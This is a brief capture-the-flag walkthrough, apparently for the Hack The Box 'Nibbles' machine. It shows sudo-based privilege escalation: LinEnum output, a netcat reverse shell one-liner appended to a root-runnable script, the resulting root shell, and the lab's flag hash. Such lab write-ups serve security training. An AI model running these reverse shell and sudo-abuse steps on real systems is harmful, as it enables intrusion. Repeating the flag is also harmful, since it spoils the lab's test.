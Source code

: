type `chmod +x LinEnum.sh` and then type `./LinEnum.sh` to run it
```
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh

```
go to `/home/nibbler/personal/stuff` and type `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh` 
back to your pc listen it `nc -lvnp 8443` 
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh             
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found

```

your pc display:
```
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-lhfqcrvcbn]─[~/Downloads]
└──╼ [★]$ nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.14.62] from (UNKNOWN) [10.129.200.170] 35114
# id
uid=0(root) gid=0(root) groups=0(root)
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@Nibbles:/home/nibbler/personal/stuff# cd /
cd /
root@Nibbles:/# cd /root
cd /root
root@Nibbles:~# ls
ls
root.txt
root@Nibbles:~# cat root.txt
cat root.txt
de5e5d6619862a8aa5b9b212314e0cdd

```
flag : `de5e5d6619862a8aa5b9b212314e0cdd`
